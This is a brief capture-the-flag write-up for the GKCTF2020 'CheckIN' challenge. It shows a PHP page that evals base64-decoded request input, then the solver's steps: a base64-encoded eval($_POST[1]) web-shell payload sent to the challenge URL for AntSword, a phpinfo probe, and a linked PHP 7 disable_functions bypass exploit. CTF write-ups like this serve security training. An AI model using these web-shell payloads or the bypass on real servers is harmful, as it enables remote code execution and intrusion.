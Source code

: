 ```yaml
---
title: '[GKCTF2020]CheckIN'
date: 2020-05-26 17:00:03
tags: CTF
---
```


## index.php
``` php
<title>Check_In</title>
<?php 
highlight_file(__FILE__);
class ClassName
{
        public $code = null;
        public $decode = null;
        function __construct()
        {
                $this->code = @$this->x()['Ginkgo'];
                $this->decode = @base64_decode( $this->code );
                @Eval($this->decode);
        }

        public function x()
        {
                return $_REQUEST;
        }
}
new ClassName();
```

## 蚁剑连接
```
eval($_POST[1]);
ZXZhbCgkX1BPU1RbMV0pOw==
http://73c16874-fa6e-413d-9d3f-9e6694cbdcd6.node3.buuoj.cn/?Ginkgo=ZXZhbCgkX1BPU1RbMV0pOw==
```
![](/images/CheckIN/CheckIN-antsword-edit.png)

![](/images/CheckIN/CheckIN-antsword.png)

## 查看phpinfo
```
phpinfo();
Ginkgo=cGhwaW5mbygpOw==
```
PHP Version 7.3.18

关键函数被禁用
![](/images/CheckIN/CheckIN-phpinfo.png)

## 上传exploit文件
[php7-gc-bypass](https://github.com/mm0r1/exploits/tree/master/php7-gc-bypass)
![](/images/CheckIN/CheckIN-exp.png)

## 获得flag
![](/images/CheckIN/CheckIN-flag.png)


